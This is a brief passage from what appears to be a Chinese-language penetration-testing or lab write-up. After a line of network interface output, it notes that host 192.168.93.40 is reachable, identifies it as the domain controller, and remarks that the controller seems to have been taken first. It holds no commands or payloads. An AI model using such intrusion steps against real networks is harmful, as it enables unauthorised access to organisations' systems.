IPv6 Netmask : ffff:ffff:ffff:ffff::

```

可以通往192.168.93.40。

所以192.168.93.40是DC了，好像先把DC打了下来。